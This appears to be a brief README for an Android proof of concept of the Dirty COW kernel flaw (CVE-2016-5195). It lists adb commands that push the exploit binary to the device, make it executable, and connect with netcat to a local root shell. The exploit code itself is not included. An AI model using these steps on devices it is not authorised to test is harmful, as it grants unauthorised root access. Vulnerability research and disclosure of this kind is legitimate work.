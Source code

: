 # limited_shell_root

limited_shell_root CVE-2016-5195 (dirty cow/dirtycow/dirtyc0w) proof of concept for Android

How to use.

Once compiled

adb push dirtycow /data/local/tmp/dirtycow

adb push recowvery-app_process32 /data/local/tmp/recowvery-app_process32

adb shell chmod 0777 /data/local/tmp/*

adb shell

toybox nc localhost 11112

Shell is now active type ls
